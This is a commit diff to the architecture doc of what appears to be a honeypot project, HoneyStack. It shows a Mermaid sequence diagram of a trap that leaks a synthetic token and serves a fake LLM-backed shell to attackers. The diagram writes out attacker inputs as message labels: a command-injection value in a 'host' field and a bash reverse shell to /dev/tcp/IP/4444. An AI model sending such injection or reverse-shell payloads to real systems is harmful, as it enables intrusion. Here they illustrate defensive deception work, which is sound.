

One commit to adityasugandhi/HoneyStack changed the second of 4 diagrams in docs/architecture.md. Above: the diagram before and after it, drawn with Mermaid. The commit also changed other lines of this file and 26 other files, not shown here.

````diff
--- a/docs/architecture.md
+++ b/docs/architecture.md
@@ -54,42 +54,42 @@
 ```mermaid
 sequenceDiagram
   autonumber
   actor Atk as Attacker
   participant L as nc listener
   participant T as Trap (Akash)
   participant C as Control server
   participant G as Guild honeystack-shell
   participant CH as ClickHouse
 
   Atk->>T: GET /api/env
   T->>C: POST /v1/events/batch
   C->>CH: INSERT events
   T-->>Atk: leaked ADMIN_TOKEN (synthetic)
 
   Atk->>T: POST /api/admin/diagnostics {"host":"8.8.8.8#59; id"}
   T->>C: /v1/shell/oneshot "id"
   C-->>T: uid=1000(node)... (fast path)
   T-->>Atk: fake ping output + uid=1000(node)
 
   Atk->>T: POST diagnostics {"host":"x#59; bash -i >#38; /dev/tcp/IP/4444 0>#38;1"}
   T->>C: /v1/shell/open
   C->>G: start session + machine description
   G-->>C: READY
   T->>L: TCP connect (allowlisted IP)
-  T-->>L: bash banner + node@acme-status-7f9c4:/app$
+  T-->>L: bash banner + node@hivewell-status-7f9c4:/app$
 
   loop every command
     L->>T: command (e.g. find / -perm -4000)
     T->>C: /v1/shell/cmd
     alt fast path (id, ls, cat, cd, sudo -l, curl, psql...)
       C->>C: answer from world.json + session state
     else everything else
       C->>G: follow-up message: session_state + command
       G-->>C: raw terminal output
       C->>C: character filter
     end
     C->>CH: INSERT shell_turns (served_by, guild ids)
     C-->>T: output + prompt + delay
     T-->>L: output + prompt
   end
 ```
````
